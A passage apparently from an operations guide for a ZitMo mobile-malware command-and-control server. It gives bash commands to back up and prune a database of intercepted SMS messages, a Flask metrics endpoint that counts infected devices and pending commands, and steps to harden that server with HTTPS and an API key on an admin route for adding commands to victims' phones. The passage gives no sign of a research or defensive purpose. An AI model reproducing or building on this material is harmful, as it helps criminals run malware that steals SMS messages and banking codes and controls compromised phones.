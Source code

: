 ```bash
# Backup database
sqlite3 zitmo_data.db ".backup backup_$(date +%Y%m%d).db"

# Clean old data
sqlite3 zitmo_data.db "DELETE FROM intercepted_sms WHERE timestamp < datetime('now', '-30 days');"

# Vacuum database
sqlite3 zitmo_data.db "VACUUM;"
```

### 6.3 Performance Monitoring

```python
# Add to server for metrics
@app.route('/metrics')
def metrics():
    stats = {
        'total_devices': count_devices(),
        'active_devices': count_active_devices(),
        'total_sms': count_sms(),
        'pending_commands': count_pending_commands()
    }
    return jsonify(stats)
```

## 7. Security Hardening

### 7.1 Server Security

**1. Use HTTPS:**
```bash
# Generate self-signed certificate
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365

# Configure Flask
app.run(ssl_context=('cert.pem', 'key.pem'))
```

**2. Add Authentication:**
```python
from functools import wraps

def require_api_key(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if request.headers.get('X-API-Key') != API_KEY:
            return jsonify({'error': 'Invalid API key'}), 401
        return f(*args, **kwargs)
    return decorated_function

@app.route('/admin/add_command', methods=['POST'])
@require_api_key
def add_command():
    # ...
```
